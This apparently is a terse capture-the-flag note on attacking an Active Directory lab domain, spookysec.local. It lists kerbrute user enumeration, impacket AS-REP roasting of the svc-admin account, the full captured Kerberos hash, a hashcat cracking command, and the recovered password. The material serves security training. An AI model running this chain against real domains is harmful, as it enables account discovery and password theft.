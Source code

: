 `/opt/binaries/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local /usr/share/wordlists/active-directory/userlist.txt -t 50`

![[Pasted image 20210601153842.png]]

`impacket-GetNPUsers spookysec.local/svc-admin -no-pass -dc-ip 
10.10.121.26 -request`

`$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:8816586eb4d93a693f150aed21b3646f$563ab87b5523728012c15b78104b2ad6f21c4cdc7db1b0a1f552d4914c450e88e4caed69c182e7a0a55e00e51e62993c4abfd5516032dc134f3b28bfb2f0c7ae8300f427e8b8eb49b02204b9fa159abfd6d77245eb040b6a2ffd481777c77d42a80fea107f1133e55d43400cfc7e7d19d3466344a9049d3beff93b766ace644ca9901b0f83d9a1203e7c3d2b6820dfa1aed348c172661f22b2ba5987f432c0ab3e8e41f2e2661e6e6b679f19aa3b6c39e27d1f4a1ba560e2043be5d47a88a2c12f8a256b9351624ce1894bf523664e28e02a70f023a215b8da060d91c48a1f20eeb5f667ed7666143e3d8df801fd7ef61552`

![[Pasted image 20210601154307.png]]

![[Pasted image 20210601154414.png]]

`hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt`
`management2005`
![[Pasted image 20210601154601.png]]
